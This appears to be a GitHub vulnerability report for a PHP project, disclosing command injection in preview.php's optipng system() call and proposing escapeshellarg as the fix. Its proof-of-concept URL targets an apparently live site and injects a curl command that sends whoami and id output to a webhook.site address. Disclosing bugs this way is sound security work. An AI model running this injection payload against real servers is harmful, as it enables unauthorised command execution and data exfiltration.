 # Security Policy


## Reporting a Vulnerability

The preview.php file have a commnad injection vuln, you can add an escapeshellarg to prevent it !  

vulnerable code:  
```php
system("/usr/bin/optipng " . $cachePath . " >/dev/null 2>/dev/null");
```


### PoC
![image](https://github.com/user-attachments/assets/707023f8-8c13-4c85-9d01-fa1a7e646a8a)

URL : https://www.sandcomp.com/sandphoto/temp/preview-14-28-blue%20;%20curl%20https://webhook.site/c7cba25c-dc7b-4a19-be47-2ac1c3268450%20--data%20$(whoami%20;%20id).png

Result : 
![image](https://github.com/user-attachments/assets/8daf21b6-5f28-41f4-b8cc-407e73c7eeef)

